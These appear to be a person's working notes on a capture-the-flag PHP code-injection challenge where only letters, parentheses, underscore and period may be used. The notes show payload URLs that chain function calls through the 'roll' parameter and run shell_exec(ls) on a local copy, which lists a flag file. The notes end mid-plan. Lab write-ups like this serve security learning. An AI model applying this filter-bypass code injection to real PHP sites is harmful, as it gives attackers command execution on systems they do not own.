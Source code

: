 No semicolons

Also, unless you find a way to tie up the "();" into something else, basicly all your calls have to be functions with no arguments.

can I call python from php?

**list of legal chars**

characters a-z

"("

")"

"_"

"."

no "$" so no vars.

no "/" so no escape characters.

no spaces

**List of useful commands:** 

getcwd

given format:

"echo " + $var + "();"

echo $var();

Note that the first space is free.

echo a;

I think I need an environment to run my own php

Ok. Cool. I have a local env.

[http://localhost:8081/?roll=getcwd().getcwd](http://localhost:8081/?roll=getcwd().getcwd)

This works, outputs the local path twice.

So this proves I can chain two commands together, provided I end it with ".getcwd"

Ok.

shell_exec() executes random bash code.

[http://localhost:8081/?roll=shell_exec(ls).getcwd](http://localhost:8081/?roll=shell_exec(ls).getcwd)

This lists the contents of my local.

```jsx
fl4g_here_but_can_you_get_it_hohoho.php
index.php
/var/www/html
```

Possible ideas:
